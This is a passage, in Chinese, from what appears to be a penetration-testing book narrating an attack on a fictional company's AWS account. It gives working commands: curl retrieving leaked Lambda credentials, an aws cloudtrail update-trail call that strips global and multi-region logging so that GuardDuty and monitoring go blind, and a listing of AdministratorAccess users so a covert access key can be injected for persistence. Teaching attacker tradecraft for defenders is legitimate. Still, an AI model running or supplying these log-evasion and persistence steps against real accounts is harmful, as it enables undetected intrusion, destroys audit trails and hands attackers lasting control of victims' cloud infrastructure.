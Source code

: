 太棒了。我们有了一个可靠的持久化策略，能够绕过旧的和新的检测功能。

假设我们的 Jenkins 访问权限被撤销，并且我们希望使用 Lambda 凭据重新建立永久访问。我们是否应该直接创建一个拥有无限权限的新 IAM 用户，继续我们的生活？这不是最明智的做法。任何基于 CloudTrail 的监控解决方案都可能在几分钟内捕捉到这个异常请求。

如我们之前所见，当前的 CloudTrail 配置将所有区域的日志汇总到 `eu-west-1` 区域。然后，这些日志会被推送到 S3 和 CloudWatch，供监控设备使用。这个事件转发功能被称为 *trail*。

在调用任何 IAM 操作之前，我们需要打乱这个日志记录。

### 隐藏痕迹

请注意，我们的目的是打乱日志记录，而不是完全禁用它。事实上，目前无法完全禁用 CloudTrail 或使其跳过事件。无论我们做什么，我们的 API 调用仍然会出现在 CloudTrail 事件仪表板上，持续 90 天。

然而，日志记录可以重新配置，排除某些事件的转发。我们甚至可以在执行恶意任务时，将整个区域的日志记录隐藏。

没有日志记录意味着 S3 上没有日志，没有 GuardDuty，没有 CloudTrail Insights，没有 CloudWatch 指标，也没有自定义安全仪表板。就像多米诺骨牌一样，所有的监控工具，无论是 AWS 内部还是外部，都会相继倒下，发出沉默的巨响。如果我们添加 100 个 IAM 用户或在圣保罗启动 1,000 个实例，除了财务部门外，没人会注意到。

这是一个简短的示例，展示了我们如何重新配置日志记录以排除全局（IAM、STS 等）和多区域事件：

```
root@Point1:~/# **curl https://mxrads-report-metrics.s3-eu-west-1.amazonaws.com/lambda**

AWS_ACCESS_KEY_ID=ASIA44ZRK6WSTGTH5GLH
AWS_SECRET_ACCESS_KEY=1vMoXxF9Tjf2OMnEMU...
AWS_SESSION_TOKEN=IQoJb3JpZ2luX2VjEPT...

# We load these ENV variables, then disable CloudTrail global and multiregion logging
root@Point1:~/# **aws cloudtrail update-trail \**
**--name default \**
**--no-include-global-service-events \**
**--no-is-multi-region \**
**--region=eu-west**

"Name": "default",
"S3BucketName": "mxrads-cloudtrail-logs",
"IncludeGlobalServiceEvents": false,
"IsMultiRegionTrail": false,
`--snip--`
```

从这一刻开始，我们有了 *特权授权*，可以创建用户和访问密钥，进行各种胡闹。如果有人手动查看 CloudTrail 仪表板，可能会发现我们的 API 调用，前提是我们非常粗心，但所有自动化解决方案和工具都将处于黑暗中。

### 恢复访问

现在我们已经禁用了 CloudTrail，可以继续创建更永久的 AWS 凭证。

与默认管理员策略关联的用户和组很容易成为攻击目标。IAM 用户的访问密钥最多只有两个，因此我们会找到一个拥有一个或零个访问密钥的用户，并继续注入一个我们将秘密拥有的附加密钥。首先，我们列出用户和组：

```
root@Point1:~/# **aws iam list-entities-for-policy \**
**--policy-arn arn:aws:iam::aws:policy/AdministratorAccess**

UserName: b.daniella
UserName: chris.hitch
UserName: d.ressler
`--snip--`
```
